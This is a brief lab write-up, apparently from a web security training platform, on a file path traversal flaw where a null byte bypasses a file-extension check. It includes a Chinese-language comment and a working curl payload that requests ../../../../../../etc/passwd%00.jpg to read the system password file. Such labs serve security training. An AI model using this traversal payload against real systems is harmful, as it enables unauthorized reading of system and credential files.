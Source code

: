 # Lab: File path traversal, validation of file extension with null byte bypass

This lab contains a file path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the /etc/passwd file.

## LFI
* 題目說要期望的副檔名，就是 .jpg，阿用 null byte 截斷就可以了
```
payload = curl https://acc81f591e7106fec0dc0720009c0005.web-security-academy.net/image\?filename\=../../../../../../etc/passwd%00.jpg
```
